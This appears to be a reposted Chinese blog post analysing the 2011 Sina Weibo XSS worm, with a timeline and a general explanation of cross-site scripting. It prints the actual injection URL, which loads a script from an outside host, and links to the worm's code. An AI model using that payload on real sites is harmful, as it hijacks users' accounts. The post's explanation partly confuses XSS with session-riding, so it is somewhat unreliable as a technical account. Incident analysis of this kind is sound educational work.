 ```yaml
---
title: 110629 关于XSS攻击
author: 张 清月
layout: post
permalink: /2176.html
bot_views:
  - 197
duoshuo_thread_id:
  - 1280248249638191289
views:
  - 2
categories:
  - Code
---
```

6月28日20时14分左右开始，新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建 党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等 微博消息和私信，并自动关注一位名为hellosamy的用户。

事件的经过线索如下：

*   20:14，开始有大量带V的认证用户中招转发蠕虫
*   20:30，2kt.cn中的病毒页面无法访问
*   20:32，新浪微博中hellosamy用户无法访问
*   21:02，新浪漏洞修补完毕

**新浪微博XSS事件**

<div>
  在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。
</div>

<div>
  首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你 运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器 上的程序通话。这就是XSS攻击的最基本思路。
</div>

<div>
  再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态 的协 议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗 口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿使用你登录状态的。
</div>

<div>
  当然，你不必过于担心访问别的网站，在别的网站里的js代码会访问你的微博或是网银的登录页面。因为浏览器的安全性让js只能访问自己所在网站的资源。当然，这是浏览器做的检查，所以，浏览器并不一定会做这个检查，这就是为什么IE6是史上最不安全的浏览器，没有之一。只要你不在用IE6，应该没有这些问题。
</div>

<div>
  <strong>XSS攻击有两种方法，</strong>
</div>

*   一种就像SQL Injection或CMD Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进 行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。

*   另一类则是来来自外部的攻击，主要指的自己构造XSS 跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如 社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax 要发起跨站调用是非常困难的（你可能需要hack浏览器）。

这次新浪微博事件是第一种，其利用了微博广场页面 <a rel="nofollow" href="http://weibo.com/pub/star" target="_blank">http://weibo.com/pub/star</a> 的一个URL注入了js脚本，其通过<a rel="nofollow" href="http://163.fm/PxZHoxn" target="_blank">http://163.fm/PxZHoxn</a> 短链接服务，将链接指向：

<div>
  <div>
    <div>
      代码:
    </div>
    
    <pre lang="js">http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update</pre>
  </div>
</div>

<div>
  注意，上面URL链接中的其实就是</p> <div>
    <div>
      代码:
    </div>
    
    <pre lang="js">&lt;script src="//www.2kt.cn/images/t.js"&gt;&lt;/script&gt;</pre>
  </div>
  
  <div>
    攻击者并不一定是2kt.cn的人，因为.cn被国家严格管制，所以，我个人觉得这个人不会愚蠢到用自己域名来做攻击服务器。</p>
  </div>
  
  <p>
    <strong>其它</strong>
  </p>
  
  <ul>
    <li>
      初步发现 Chrome 和 Safari 都没中招。IE、Firefox未能幸免。
    </li>
    <li>
      史上最著名的XSS攻击是Yahoo Mail 的<a rel="nofollow" href="http://en.wikipedia.org/wiki/Yamanner" target="_blank">Yamanner </a>蠕 虫是一个著名的XSS 攻击实例。早期Yahoo Mail 系统可以执行到信件内的javascript 代码。并且Yahoo Mail 系统使用了Ajax技术，这样病毒javascript 可以的向Yahoo Mail 系统发起ajax 请求，从而得到用户的地址簿，并发送攻击代码给他人。
    </li>
    <li>
      为什么那个用户叫hellosamy，因为<a rel="nofollow" href="http://en.wikipedia.org/wiki/Samy_%28XSS%29" target="_blank">samy</a>是第一个XSS攻击性的蠕虫病毒，在MySpace上传播。
    </li>
    <li>
      关于攻击的代码在这里：<a rel="nofollow" href="http://coolshell.cn/wp-content/uploads/2011/06/06.28_sina_XSS.txt.zip" target="_blank">06.28_sina_XSS.txt</a> （编码风格还是很不错的）
    </li>
  </ul>
</div>

转载自:http://www.jobbole.com/entry.php/982-%E6%B5%85%E6%9E%90%E6%96%B0%E6%B5%AA%E5%BE%AE%E5%8D%9A%E7%9A%84XSS%E6%94%BB%E5%87%BB